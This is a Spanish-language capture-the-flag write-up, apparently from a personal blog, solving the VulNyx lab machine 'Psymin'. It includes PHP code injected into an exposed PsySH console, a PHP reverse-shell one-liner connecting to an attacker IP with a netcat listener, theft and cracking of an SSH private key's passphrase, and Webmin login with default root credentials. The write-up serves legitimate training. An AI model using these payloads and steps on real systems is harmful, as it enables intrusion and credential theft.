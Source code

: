 ```yaml
---
title: 'Psymin'
description: 'Resolución de la máquina Psymin de Vulnyx.'
pubDate: 'Nov 10 2024'
heroImage: '/images/machines/psymin/psymin-hero.webp'
---
```


Bienvenidos a la resolución de la máquina **Psymin** de la plataforma VulNyx, una máquina sencilla e interesante. Es mi primer writeup y más que mostrar la solución de manera directa quiero mostrar mi enfoque y el por qué de mis decisiones.

![psymin machine info](/images/machines/psymin/psymin.webp)
## Enumeración

Primero veremos los puertos que están abiertos y que servicios están expuestos:

```bash
sudo nmap -p- -sS -Pn -n --open --min-rate 5000 10.0.2.10 -vvv -oG allPorts
...
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
...
```

Ahora usaremos scripts básicos de reconocimiento para los puertos abiertos:

```bash
nmap -p22,80,3000 -sCV 10.0.2.10 -vvv -oN targeted

# Nmap 7.95 scan initiated Thu Nov  7 19:23:26 2024 as: nmap -p22,80,3000 -sCV -vvv -oN targeted 10.0.2.10
Nmap scan report for 10.0.2.10
Host is up, received syn-ack (0.00052s latency).
Scanned at 2024-11-07 19:23:32 -05 for 153s

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzUvGOaZF4gJoYBGR4NrMZOj32x98uVDUQ0dY0RENRdIyokD8RvJG8g9g71aoh/20m4mcEEdSyp+eE9ABu1kwk=
|   256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPrNZ9AQg+cgX4w0wabsDTAVeo9/VWThsF5efc2OzsFo
80/tcp   open  http    syn-ack nginx 1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
3000/tcp open  ppp?    syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP: 
|     ^@^L^@^@^P^@^@^@^@^@^@^@^@^@Psy Shell v0.12.4 (PHP 8.2.20 
|     cli) by Justin Hileman
|     OPTIONS / RTSP/1.0
|   DNSVersionBindReqTCP: 
|     ^CPsy Shell v0.12.4 (PHP 8.2.20 
|     cli) by Justin Hileman
|   GenericLines, NULL: 
|     Psy Shell v0.12.4 (PHP 8.2.20 
...
```

## Servicios Web

Los servicios que más me llaman la atención son `HTTP` en el puerto 80 y 3000. Digo que el puerto 3000 ejecuta un servicio web ya que veo en el resultado de los scripts de reconocimiento varias cabeceras HTTP como `GET / HTTP/1.0` u `OPTIONS / HTTP/1.0`.

Revisando el puerto 80 no encuentro nada interesante ni en el código fuente o haciendo _fuzzing_ de directorios o archivos. También revisé si existían los archivos `robots.txt` o `sitemap.xml` sin encontrar ninguno de estos.

![port 80](/images/machines/psymin/port80.webp)

Ahora me conecto al puerto 3000 y me retorna en texto plano unas líneas un poco extrañas que son más como encabezados de una respuesta HTTP.

![port 3000](/images/machines/psymin/port3000.webp)

Investigando un poco, veo que [psysh](https://psysh.org/) es un debugger con consola interactiva para PHP así que hago una prueba ejecutando código arbitrario PHP cambiando el método de solicitud ya que veo que es una entrada en la sesión de **Psy Shell**.

Usando **burpsuite** cambiamos el método de solicitud por código PHP a ver qué pasa, enviamos la solicitud al _repeater_ para poder modificar nuestra solicitud.

![Initial Burp Request](/images/machines/psymin/burpRequest.webp)

Como vimos en nuestro navegador los campos que se ejecutan como "comandos" en **psy shell** son el método `GET / HTTP/1.1` y los encabezados `User-Agent` y `accept`, no cambiaría `host` debido a que la solicitud ya no se haría a este equipo.

Voy a reemplazar la línea del método de solicitud por código arbitrario PHP como el siguiente:

```php
// Linea original
GET / HTTP/1.1

// Código arbitrario
$fecha="date";
```

![arbitrary php](/images/machines/psymin/php-arbitrary-code.webp)

Ahora que sé que puedo ejecutar código PHP quiero obtener una reverse shell la cual generaré con [Reverse Shell Generator](https://www.revshells.com/), existen muchas opciones para generar una reverse shell con PHP, pero algunas funciones no se pueden ejecutar, la opción que me funcionó fue con `proc_open`.

```php
$sock=fsockopen("10.0.2.9",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Antes de enviar la solicitud con este código PHP, pondremos a la escucha el puerto 4444 que definimos en `fsockopen` y cuya IP es la de nuestra máquina atacante.

```bash
nc -nlvp 4444
```

Ahora enviamos la solicitud con **burpsuite** y obtendremos una reverse shell.

![reverse shell php](/images/machines/psymin/reverse-php.webp)

Una vez recibida la conexión hacemos un [tratamiento de la tty](https://invertebr4do.github.io/tratamiento-de-tty/) y tendremos la primer _flag_ en `$HOME/user.txt`.

```bash
cat $HOME/user.txt
e12853......
```

Ahora quiero mantener acceso al usuario alfred y en su `$HOME` veo que tiene el directorio `.ssh`  con su `id_rsa`, la descargo a mi equipo o copio su contenido en un archivo local y lo uso para acceder a la máquina por ssh.

> [!Important]
> Es necesario que el archivo `id_rsa` de alfred tenga los permisos **600** para que puedas conectarte por ssh, puedes modificar los permisos del archivo con `chmod 600 id_rsa`.

```bash
ssh alfred@10.0.2.10 -i id_rsa
Enter passphrase for key 'id_rsa':
```

Me pide una clave para acceder, entonces vamos a crear un hash con [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py) y ese hash posteriormente lo crackearemos con [John The Reaper](https://github.com/openwall/john).

```bash
ssh2john.py id_rsa > alfred.hash
john --wordlist=/usr/share/rockyou.txt --fomat=SSH alfred.hash

# terminando el comando anterior
john --show alfred.hash
id_rsa:alfredo
```

La _passphrase_ de la clave privada contenida en `id_rsa` es `alfredo`, entonces ahora podemos conectarnos con el `id_rsa` y proporcionando la clave `alfredo`.

```bash
ssh alfred@10.0.2.10 -i id_rsa
```

Ahora tenemos acceso permanente a este usuario.

## Escalada de privilegios

Podemos listar el archivo `/etc/passwd` para ver que otros usuarios existen, pero no veo ninguno, así que buscamos convertirnos en **root**.

Lo primero que se me ocurre al escalar privilegios son tres cosas. La primera es ver si tengo algún binario o comando que pueda ejecutar como otro usuario y moverme lateral o verticalmente con `find` o `sudo`.

```bash
find / -perm -4000 2>/dev/null
sudo -l
```

No obtengo buenos resultados con `find` y el comando `sudo` no existe.

En segundo lugar busco procesos que se estén ejecutando en segundo plano y/o de manera periódica.

```bash
#!/bin/bash

# procmon script de s4vitar
old_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\<\>]" | grep -v -E "command|procmon"
        old_process=$new_process
done
```

No encuentro nada interesante (asumo que no existen tareas cron), así que por último veo qué servicios existen y se están ejecutando.

```bash
systemctl --type=service | grep "running"
```

No veo servicios fuera de lo común a excepción de `webmin.service`. Busco en internet qué hace este servicio y veo que es una herramienta de configuración o administración de un sistema, al cual se puede acceder mediante **http**. Leyendo la documentación veo que se ejecuta en el puerto `10000`. 

Ahora veo qué puertos están en escucha, pero no están expuestos.

```bash
ss -tunlp
```

Noto que un puerto TCP está a la escucha de manera local  `127.0.0.1:10000`, ahora haremos un _port fordwarding_ hacia nuestro equipo y veremos si efectivamente es `webmin.service`.

```bash
ssh -L 10000:127.0.0.1:10000 alfred@10.0.2.10 -i id_rsa
```

Ahora desde mi navegador ingreso la url `localhost:10000` y efectivamente es webmin.

![webmin login](/images/machines/psymin/webmin-login.webp)

Probaremos las credenciales por defecto en primer lugar y si no, veremos qué hacer con otras credenciales. Revisando en el proceso de instalación, para [acceder al panel de webmin](https://www.liquidweb.com/blog/webmin-ubuntu/#Access%20the%20Webmin%20Panel) al finalizar la instalación, las credenciales por defecto son `root:root`. Efectivamente, estas son las credenciales e ingresamos al panel.

Como nos permite administrar un equipo remoto mediante una interfaz gráfica, dentro de nuestro panel de trabajo existe una terminal interactiva que nos permite ingresar comandos en el equipo remoto.

La terminal se ubica en **Tools > Terminal** y al acceder ya somos el usuario **root**. Finalmente podemos leer el archivo `$HOME/root.txt`.

```bash
cat /root/root.txt
8968.....
```

Si quieres tener un acceso permanente, puedes aprovechar el `id_rsa` del usuario root y usarlo para acceder al equipo sin proporcionar contraseña.

Y bueno jeje, eso fué la máquina **Psymin**, espero les haya gustado la solución de la máquina y si tienes alguna recomendación, sugerencia, corrección o algo que quieras decirme puedes escribirme cualquiera de mis redes sociales en [contacto](/contact).
